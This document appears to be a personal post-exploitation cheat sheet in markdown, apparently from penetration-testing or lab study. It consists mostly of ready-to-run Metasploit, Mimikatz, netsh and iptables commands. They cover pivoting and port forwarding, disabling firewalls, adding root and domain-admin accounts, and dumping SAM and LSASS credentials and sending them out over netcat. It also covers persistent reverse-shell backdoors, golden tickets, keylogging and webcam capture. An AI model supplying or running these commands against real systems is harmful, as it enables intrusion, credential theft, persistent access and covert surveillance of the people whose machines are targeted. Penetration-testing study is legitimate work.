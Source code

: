 ## File Transfer:

## Pivoting & Redirection:  

	Pivoting:
		*Use MSF portfwd when possible
		Within Meterpreter:  portfwd add -l <local port on the attacking machine (yours)> -p <victim port we want to access> -r <victim IP address>  ;  portfwd list  -  like SSH local forwarding  (help: portfwd -h)
			Forward:
				ex. portfwd add -L 127.0.0.1 -l 55555 -r 192.168.0.11 -p 55555
				ex. portfwd add -L 127.0.0.1 -l 2222 -r 192.168.200.69 -p 22 ; ssh user@localhost -p 2222
			Reverse (for intermediate reverse shell callback):  portfwd add -R -L 192.168.106.52 -l 9998 -p 9999  (reverse forward T2 9999 to T1 9998) (ran on T2)
				**portfwd add -R -L 127.0.0.1 -l RHP1 -r 192.168.106.52 -p RHP2  (run on meterp session of .106.52 box)
					**-r can be the listening box interface, or the box that will connect to it
				ex. portfwd add -R -L 127.0.0.1 -l 8888 [-r 192.168...] -p 9999    (forwards [192.168... interface on victim] 9999 to my 8888)
		run autoroute -s 10.1.13.0/24   -  then attack directly in MSF  (help: run autoroute -h)
		*Add Route (within MSF):  background; route add 192.168.0.0 255.255.255.0 <session_id>
		PSExec/PTH (port 445):  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
			*Note: psexec uses powershell, so logging may be active; ****MAKE SURE TO USE PAYLOAD WITH PSEXEC--otherwise will try to connect directly to attack box
			Enable Firewall to Connect Back through:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'          
	Allow into Firewall:
	    Unix:
		sudo iptables -A INPUT -p tcp --dport 22 -s 192.168.11.13 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
	    Windows:
		New Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'
			Delete:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall delete rule name=RDP'
		Modify Existing Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall set rule name=callforhelp new remoteip=any'
	Routing w/ Fpipe:
		upload /tmp/fpipe.exe c:/windows/temp/fp.exe
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule profile=any name=all'
		execute -f c:/windows/temp/fp.exe -a '-l 3389 -r 22 192.168.200.69'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		-L 33389:172.17.20.10:3389
		ssh user@localhost -p 33389
	Routing w/ Portproxy:
		run multicommand -cl 'cmd.exe /c netsh interface portproxy set v4tov4 listenport=3389 connectaddress=192.168.200.69 connectport=22'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		ssh user@localhost -p 33389
		Or:  run post/windows/manage/portproxy ...
	*Remember to delete rule afterwards
	Routing w/ Iptables:
		-L8080:192.0.2.79:8080
		iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j DNAT --to-destination 192.168.255.12:80
		If conntrack module is loaded, no need for a reversing rule
		echo 1 > /proc/sys/net/ipv4/ip_forward
		iptables -I RH-Firewall-1-INPUT 10 -p tcp --dport 80 -j ACCEPT
		iptables -t nat -A POSTROUTING -p tcp --dport 80 -d 192.168.255.12 -j SNAT --to-source 172.17.10.79
		nc -n 127.0.0.1 8080

## Active Directory:

## Persistence/Credentials:

    Unix:
        Add User:  echo root2:w08rKyoC9ECsg:0:0:/root:/bin/bash >> /etc/passwd     #password
        cat /etc/passwd /etc/shadow

    Windows:
        -Dumping SAM file (older systems)
        pwdump or fgdump: On Meterpreter:  upload /usr/share/windows-binaries/fgdump/fgdump.exe c:\\

        Mimikatz: pull credentials from memory
          in meterpreter:  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m


        Credentials:
            SAM Files:
                Dump (if admin):  reg save hklm\sam c:\sam, reg save hklm\system c:\system,  and transfer back:  nc64.exe 10.10.14.18 4445 < SAMS   ,  nc -nvlp 4445 > SAMS
                Decrypt (Unix):  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM [ip]
                Decrypt (Windows):  mimikatz.exe; privilege::debug; token::elevate; lsadump::sam filename1.hiv filename2.hiv
                Crack:  hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
            MSF:  run post/windows/gather/hashdump
            Mimikatz:
                Local:  mimikatz.exe; privilege::debug; sekurlsa::logonpasswords full  \\  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
                    In Meterpreter:  load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords
                From LSASS dump:
                    from task manager  \\  procdump -ma lsass.exe lsass.dmp  \\  Import-Module .\OutMiniDump.ps1; Get-Process lsass | Out-Minidump (https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
                    mimikatz “sekurlsa::minidump C:\Users\username\AppData\Local\Temp\lsass.DMP”; sekurlsa::logonPasswords

        Add User:
            net user <username> <password> /add
            net localgroup Administrators <username> /add

        RDP:
            Enable RDP Access:
                reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
                netsh firewall set service remoteadmin enable
                netsh firewall set service remotedesktop enable
            Add RDP User (Windows):  net user <user> <pass> /add; net localgroup "Administrators" <USER> /add; net localgroup "Remote Desktop Users" <USER> /add


        Turn Off Firewall:
            Newer:  netsh advfirewall set allprofiles state off
            Older:  netsh firewall set opmode disable
        
        
        Windows:
	Modules: https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/
	PrivEsc:
	    getsystem
	    use priv
	    use post/multi/recon/local_exploit_suggester  ;  use exploit/windows/local/...
	Creds:
	    hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump ->**copy file to /tmp
		john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		use auxiliary/analyze/jtr_crack_fast
	    GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
	    run credcollect
	    steal_token <PID> / drop_token
		Mimikatz:
			Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
			Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
	Persistence:
	    Add User:  Local: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
		Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
	    RDP:
		run post/windows/manage/enable_rdp username=admin,password=password
		    Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
	    Telnet:  run gettelnet [-e  //  -u user -p pass]
	    Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
		Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
	    Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
		kerberos_ticket_list; kerberos_ticket_use /tmp/ticket
	Hardware:
	    Clipboard:  load extapi; clipboard_get_data; clipboard_monitor_start; clipboard_monitor_dump
	    Keylogger:  keyscan_start; keyscan_stop; keyscan_dump  (after migrating to explorer)
	    webcam_list \ webcam_snap
	    screengrab
	    run vnc  -  opens quick viewing session
